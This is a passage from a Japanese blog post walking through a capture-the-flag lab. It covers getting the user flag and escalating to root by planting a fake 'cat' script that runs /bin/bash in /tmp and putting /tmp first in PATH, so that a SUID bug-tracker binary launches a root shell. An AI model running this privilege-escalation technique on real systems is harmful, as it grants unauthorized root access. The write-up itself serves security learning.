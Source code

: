 実行するとidを聞かれ、hogeと入力すると出力結果には、`cat: /root/reports/hoge: No such file or directory` と表示されていることがわかります。

つまり、このファイルは `/root/reports/` 入力値のファイルを `cat` していることがわかります。

設問の解答としては、`cat`になります。

### user.txtの取得

`user.txt` は既に `/home/robert/` 配下に存在しているのでその中身を取得すればよいです。

### root.txtの取得

`/usr/bin/bugtrancker` は `root` ユーザとして実行される。
`cat` を自分の作成したファイルを呼び出したい。
そこで、 `/tmp` 配下に `cat` ファイルを作成し、

```sh
cd /tmp
touch cat
chmod +x cat
```

また、 `cat` ファイルの中身に `/bin/bash` を書き込みます。

```sh
echo "/bin/bash" > cat
export PATH="/tmp:$PATH"
```

これにより、`/usr/bin/bugtracker`を実行し、 `whoami` を実行すると `root` ユーザでシェルが立ち上がっているのが確認できます。

<img src="/images/20230425a/image_11.png" alt="" width="338" height="197" loading="lazy">

あとは `/root` 配下のフラグを提出すれば完了です。

## まとめ

今回は権限昇格がポイントでした。

権限昇格の部分で非常に詰まりました。

TIER2以降では権限昇格は必要な知識なので、しっかり使えるようになることが大切だと感じました。

明日の記事は、渡邉さんの「Pulumiで始めるIaC入門」です。

[^1]: https://qiita.com/kasei-san/items/3edb52359ff288d2f435
[^2]: https://eng-entrance.com/linux-permission-suid
